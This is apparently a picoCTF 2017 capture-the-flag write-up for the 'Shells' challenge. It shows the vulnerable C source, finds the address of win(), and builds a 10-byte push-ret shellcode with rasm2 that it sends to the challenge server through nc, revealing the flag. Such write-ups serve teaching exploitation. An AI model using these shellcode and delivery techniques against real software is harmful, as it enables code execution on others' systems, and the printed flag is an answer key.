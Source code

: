 # **Shells - 70 pts**

```
How much can a couple bytes do? Use shells! Source.
Connect on shell2017.picoctf.com:40976
```

This is similar to Shellz, but now we only have 10 bytes... let's take the same approach as last time.

### **look at source code**
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
```

Immediately popping out is function  `win`, which, when executed, will cat the flag for us. So, how can we manipulate our input to execute something not in the line?

`vuln()` gives us an input with a function pointer. Let's use `objdump` or `gdb` to find the address of win()

![binary](../.picostuff/pics/objdump.png)

`win()` is located at `0x8048540`, so we need to call the function in 10 bytes...

### **Maybe a simple push-ret shellcode?**

Let's try it. Using radare2, `rasm2 -a x86 -C "push 0x8048540; ret" | xargs printf > payload` will
help us store our payload. Then, it's just simply repeating like last time with `cat payload - | nc [addr]`...

And hey, looks like it truly was that simple!


flag{cd875b6ffb5cdd3319532d52ceca71aa}
